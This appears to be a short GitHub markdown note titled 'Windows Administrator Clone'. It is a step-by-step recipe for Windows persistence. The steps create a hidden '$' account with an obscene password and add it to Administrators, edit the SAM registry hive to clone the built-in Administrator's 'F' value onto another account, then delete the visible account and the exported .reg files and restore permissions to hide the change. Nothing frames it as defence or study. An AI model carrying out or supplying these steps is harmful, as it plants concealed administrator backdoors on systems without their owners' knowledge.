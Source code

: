 # Windows Administrator Clone

## Create account & Promote to Administrators group

```cmd
net user Cathryn$ fuckyoub1tch /add

net localgroup Administrators Cathryn$ /add
```

## Export Regedit info

HKEY_LOCAL_MACHINE\SAM\SAM

setup permission to FULL CONTROLL to Administrator

export HLM\SAM\SAM\Domains\Account\Users\000001f4

export HLM\SAM\SAM\Domains\Account\Users\000003e9 (Your Account Mapping permission)

export HLM\SAM\SAM\Domains\Account\Names\Cathryn$

## Edit

Open 1f4 & 3e9 via Notepad

Copy `F` Content to 3e9 from 1f4

save

# Delete User & import regedit files

```cmd
net user Cathryn$ /del
```

Merge Cathryn$.reg & 3e9.reg

setup permission to None to HLM\SAM\SAM

delete *.reg , close regedit.msc.